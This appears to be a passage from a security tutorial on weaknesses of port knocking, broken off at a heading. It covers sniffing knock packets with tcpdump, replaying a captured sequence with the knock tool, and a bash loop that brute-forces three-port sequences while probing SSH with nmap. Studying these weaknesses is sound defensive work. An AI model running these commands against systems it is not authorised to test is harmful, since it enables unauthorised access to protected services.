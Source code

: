 
---
### 1.2 Passive Sniffing

 **Man-in-the-middle (MITM):**  
 
 If an attacker is on the same LAN or has access to a compromised host in the path, they can use `tcpdump` or `Wireshark` to sniff knock packets.  

Example:

```bash
tcpdump -i eth0 port 1000 or port 2000 or port 3000
```

Once the sequence is captured, it can be **replayed** to unlock the port.    

---
### 1.3 Replay Attacks (Port Knocking)

**Why possible:**  
 Port knocking uses a static sequence (e.g., 1000 → 2000 → 3000).  
 If an attacker sees this once, they can reuse it because it lacks cryptographic authentication.

**How it's done:**
```bash
knock 192.168.1.10 1000 2000 3000
```

The firewall opens the port for the attacker’s IP as if they were the legitimate user.    

---
## 2. Bypassing Port Knocking

### 2.1 Brute Force Enumeration

If the knock sequence is short (3–4 ports) and the timeout is long, attackers can attempt brute forcing:
 
```bash
for p1 in {1000..1100}; do
  for p2 in {2000..2100}; do
	for p3 in {3000..3100}; do
	  knock target $p1 $p2 $p3
	  nmap -p22 target
	done
  done
done
```

This is noisy but sometimes works against poorly configured systems.    

---
### 2.2 Detecting Firewall Behavior
